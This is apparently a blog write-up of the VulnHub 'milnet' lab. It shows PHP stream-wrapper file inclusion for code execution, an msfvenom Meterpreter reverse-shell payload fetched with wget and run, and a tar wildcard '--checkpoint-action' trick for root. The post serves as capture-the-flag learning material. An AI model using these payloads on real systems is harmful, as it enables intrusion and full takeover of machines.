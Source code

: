```yaml
---
layout: post
title: milnet..again
description: milnet revisited
tags: vulnhub hacking php tar wildcard
---
```

<h2>Hello Milnet, again</h2>
<br>
Obviously since my blog died a while ago, I lost my <a href="https://www.vulnhub.com/entry/milnet-1,148/" target="_blank">milnet</a> writeup. That kinda bugged me, not because that my writeup was so awesome (it was not) but because it used some interesting techniques I had not previously abused before. <br>

<h3>This is not a write up, but just a <a href="https://www.youtube.com/watch?v=_lK4cX5xGiQ" target="_blank">tribute</a></h3>


First of all, the issues importing it in Virtualbox seem to have been fixed, other than that I needed to tell it that it was a 64 bit VM. No more .ova file hacking at least.

<u>Here are my notes, no screenshots or pictures this time:</u>

Point browser at IP of milnet also using <a href="https://portswigger.net/burp/freedownload" target="_blank">Burp Suite Free</a>

Notice that browsing the site, it uses POST variables to visit various pages using the parameter route=[php file]

The parameter does not allow for LFI for anything other than php files it seems; and they are interpreted before display so little use. However; some trial and error showed that abusing <a href="https://ddxhunter.wordpress.com/2010/03/10/lfis-exploitation-techniques/" target="_blank">php stream filters</a> you can display the contents of the php files:
<pre class="brush: php">
route=php://filter/convert.base64-encode/resource=bomb
</pre>

Sadly, this is not directly useful; however if php://filter is abusable, chances are that <a href="http://insecurety.net/?p=742" target="_blank">data://</a> can also be abused. It was :)

<pre class="brush: php">
route=data://text/plain;base64,[base64 encoded php program code]
</pre>

Where program could for example would be something like:
<pre class="brush:php">
&lt;?php 
$cmd=exec(whoami"); 
echo $cmd;
?&gt;
</pre>

Nicely outputs the user "www-data".

Ok, so we have RCE but what is the easiest way to give us an interactive shell? Obviously meterpreter reverse shell, so using msfvenom we generate an ELF binary for reverse tcp:

<pre class="brush: php">
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=ip LPORT=port -f elf > shell.elf
</pre>

We then put this binary in our local webroot and fire up Apache webserver. We then encode the wget command to download shell.elf to /tmp on the milnet machine and execute it. Sure enough, our multi-handler drops us in an limited shell from the user www-data.

Looking around the filesystem, what imediately caught my eye was /backup in the root. The script itself consisted of only 2 lines to tar the /var/www/html directory. This was obviously suspicious since we as www-data user have read-write and execute rights there and the resulting compressed archive was owned by root.

[insert an hour of breaking my head over what to do with this]

Some google-fu made me end up at <a href="https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt">https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt</a> which explained how tar and wildcards can be abused resulting in command execution. This was a most obvious factor due to the retarded backup script being executed and owned by root.

Making it work was trivial:
<pre class="brush: php">
cd /var/www/html
echo "/tmp/shell.elf" > shell.sh
chmod +x shell.sh
echo "" > --checkpoint=1
echo "" > --checkpoint-action=exec=sh\ shell.sh
</pre>

Then I killed the current meterpreter session and waited. Not long after it dropped me in a root shell!<br>
<img src="/static/img/victory.gif"><br>

